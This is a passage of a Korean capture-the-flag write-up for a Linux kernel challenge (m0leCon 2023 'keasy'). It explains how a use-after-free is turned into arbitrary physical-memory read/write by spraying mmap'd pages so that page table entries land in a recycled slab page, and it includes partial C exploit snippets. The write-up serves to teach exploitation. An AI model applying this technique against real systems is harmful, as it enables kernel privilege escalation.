 ## 2-2. PTE 할당

다음으로 SLUBStick에서 봤던 것처럼(방식은 살짝 다르지만) UAF를 AAR/AAW 프리미티브로 만들기 위해 PTE를 할당한 후 이를 덮어서 물리 주소에 대한 AAR/AAW를 얻는다. 
이를 위해 spray 전에 `mmap()`을 통해 대량으로 메모리를 mapping해 놓는다.

```c
// 다수 페이지 mmap() 
// 아직 PTE는 할당되지 않음 (쓰기/읽기가 없었기 때문에)
char *pages[COUNT_PAGES];
for (int i = 0; i < COUNT_PAGES; i++) {
    pages[i] = mmap((void*)(0xdead0000UL + i*0x10000UL),
                         0x8000, PROT_READ|PROT_WRITE,
                         MAP_ANONYMOUS|MAP_SHARED, -1, 0);
}

printf("[*] spraying files, from 0 to %d\n", COUNT_FILES / 2 - 1);
...
```

이때 주목해야 할 점은 `mmap()`으로 mapping했다고 해서 무조건 PTE가 생기지는 않는다는 것이다. 
실제로 PTE가 만들어지는 시점은 page fault가 일어나는 시점, 즉 새로 할당받은 page에 접근할 때이다. 
따라서 다음과 같이 recycle 후 할당받은 page에 접근하며 쓰기를 시도하면 이에 대한 PTE가 생기고, 우리가 방금 recycle한 slab(즉, page)에 PTE가 할당되게 된다.

```c
// 다 닫아서 recycle 유도
...

// 여기서 PTE가 할당됨 -> 방금 recycle된 page가 PTE가 됨
printf("[*] writing to pages\n");
for (int i = 0; i < COUNT_PAGES; i++)
  for (int j = 0; j < 8; j++)
      *(pages[i] + j*0x1000) = 'A' + j;
```

GDB로 살펴보면 실제로 dangling ptr이 가리키고 있는 곳에 PTE가 할당되었음을 알 수 있다.


<center>
    <img src="/assets/images/posts_img/writeups/m0lecon-2023-keasy/original_file.png" alt="original_file.png">
</center>
{% include gallery caption="원래 file 구조체 (`fput()` 호출 전)" %}


[^1]: 한 파일에 대해서 65535개까지의 file descriptor를 가질 수 있기 때문이다.